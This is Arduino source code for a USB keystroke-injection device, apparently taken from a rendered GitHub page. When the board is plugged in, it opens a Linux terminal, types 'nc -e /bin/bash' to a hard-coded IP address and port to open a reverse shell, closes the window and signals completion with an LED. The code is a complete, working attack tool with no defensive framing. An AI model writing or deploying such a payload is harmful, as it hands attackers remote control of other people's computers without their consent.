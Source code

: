 #include <Keyboard.h>

  

void typeKey(int key){

Keyboard.press(key);

delay(50);

Keyboard.release(key);

}

void setup() {

pinMode(13, OUTPUT); //LED

}

  

void loop() {

delay(1000); // Initial delay

  

// Open a terminal (Ctrl + Alt + T)

Keyboard.press(KEY_LEFT_CTRL);

Keyboard.press(KEY_LEFT_ALT);

Keyboard.press('t');

delay(50);

Keyboard.releaseAll();

delay(1000); // Wait for terminal to open

  

// Reverse shell command using nc

Keyboard.print("nc -e /bin/bash 10.1.75.129 1234");

typeKey(KEY_RETURN);

delay(300);

  

// Close the terminal window

Keyboard.print("exit");

typeKey(KEY_RETURN);

delay(300);

  

// Turn on the LED to indicate completion

digitalWrite(13, HIGH);

delay(90000); // Delay to ensure the task is complete before restarting

digitalWrite(13, LOW);

delay(5000); // Additional delay to avoid immediate restart

}